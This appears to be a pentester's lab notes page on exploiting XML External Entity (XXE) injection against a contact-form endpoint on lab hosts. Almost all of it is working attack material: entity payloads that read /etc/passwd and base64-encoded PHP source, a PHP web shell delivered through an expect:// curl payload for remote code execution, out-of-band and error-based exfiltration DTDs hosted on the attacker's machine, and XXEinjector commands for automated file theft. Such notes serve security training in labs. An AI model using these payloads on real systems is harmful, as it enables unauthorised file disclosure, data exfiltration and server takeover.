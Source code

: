 ### Reading Sensitive files

Form submitted:

```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.182.100
Content-Length: 157
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.182.100
Referer: http://10.129.182.100/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>test</name>
<tel>012334567890</tel>
<email>a_lindon@employees.htb</email>
<message>test</message>
</root>
```

We can update the POST request to the following to read the `/etc/passwd` file:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<root>
<name>test</name>
<tel>012334567890</tel>
<email>&company;</email>
<message>test</message>
</root>
```

### Reading Source Code

Similarly, XXE can be used to read the source code of other files:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
<name>test</name>
<tel>012334567890</tel>
<email>&company;</email>
<message>test</message>
</root>
```

This gives the output in base64 which can easily be decoded:

![[Pasted image 20250130190718.png]]
### Remote Code Execution with XXE

RCE may also be possible:

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

And sent the following payload:

```bash
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'10.10.14.32/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work

### Exfiltration with CDATA

Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.
#### CDATA

Local Host:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

Payload - Update file location and IP address:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
 <!ENTITY % file SYSTEM "file:///etc/hosts">
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://10.10.14.32:8000/xxe.dtd">
  %xxe;
]>
<root>
<name>test</name>
<tel></tel>
<email>&joined;</email>
<message>
</message>
</root>
```

### Error Based XXE

Local Host:

```bash
cat xxe2.dtd 
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Send request:

```bash
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.32:8000/xxe2.dtd">
  %remote;
  %error;
]>
```

### Automated Out-of-band Data Exfiltration

Grab the request from Burp and save as a file. Add:

```bash
<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

To the bottom of the request:

```bash
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.249.248
Content-Length: 173
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.249.248
Referer: http://10.129.249.248/blind/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Install XXEinjector:

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Usage Example:

```bash
ruby XXEinjector.rb --host=[Your IP] --httpport=8000 --file=<burpfile> --path=/etc/passwd --oob=http --phpfilter
```

Usage:

```bash
sudo ruby XXEinjector.rb --host=10.10.14.32 --httpport --file=test.txt --path=/etc/passwd --oob=http --phpfilter
```

Look in the Logs directory to see output:

```bash
cat Logs/10.129.249.248/etc/passwd.log
```